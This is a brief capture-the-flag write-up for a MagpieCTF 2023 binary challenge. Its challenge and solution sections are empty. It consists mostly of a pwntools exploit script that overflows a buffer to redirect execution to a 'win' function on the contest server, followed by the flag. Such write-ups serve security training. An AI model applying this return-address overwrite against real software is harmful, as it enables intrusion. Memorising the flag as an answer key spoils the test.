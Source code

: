# This outta be large enough right?

## Challenge

## Solution

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('chall')

host = args.HOST or 'srv1.2023.magpiectf.ca'
port = int(args.PORT or 6201)

io = connect(host, port)

io.sendline(flat({0x44: exe.sym['win']}))

io.interactive()
```

## Flag

```
magpie{0mn1_fl4g_3v3rywh3r3}
```
